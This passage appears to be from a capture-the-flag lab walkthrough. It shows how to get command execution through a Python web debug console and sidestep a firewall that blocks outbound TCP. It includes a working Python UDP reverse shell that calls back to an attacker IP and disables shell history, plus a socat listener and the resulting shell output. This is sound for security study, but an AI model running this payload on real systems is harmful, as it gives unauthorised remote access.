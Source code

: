 ![](https://preview.ibb.co/mPPw9Q/console.png)


Code Execution
------------

As a quick aside, this python console is single threaded.  If you're going to do any testing of scripts, do them locally for the love of god.  You can open up a python console and see if your payload works and doesn't crash the python process.  

Since this is a single-threaded web application, you will hang the process if you fuck up and make it unreachable for anyone else.  Also, it's possible to hang the process and still return yourself a shell, don't be that person!!!!  I had to reset this three times just to write this walkthrough, to even get to the console because of people's poorly written reverse shells.

However, if you try placing a reverse shell acting over TCP in the console, you won't get a connection back.  A quick peek at the firewall rules reveals all.
```python
>>> subprocess.check_output(['cat','/etc/iptables/rules.v4'])
'# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017\n'
```
From this we see no outbound tcp connections are allowed, but that's not the case for UDP.  So we now have to construct a shell utilising UDP.

I'll include my payload which was adapted from https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py.  As you can see, I've spawned a seperate process using Popen, so that this shell doesn't hang the main console thread.

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

For this, a netcat listener won't work but socat will. 
```bash
socat file:`tty`,echo=0,raw udp-listen:1234
``` 
Run your code and you'll get a shell back.

```bash
root@kali:~/htb/challenges/hiddenInColors# socat file:`tty`,echo=0,raw udp-listen:1234
$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
```

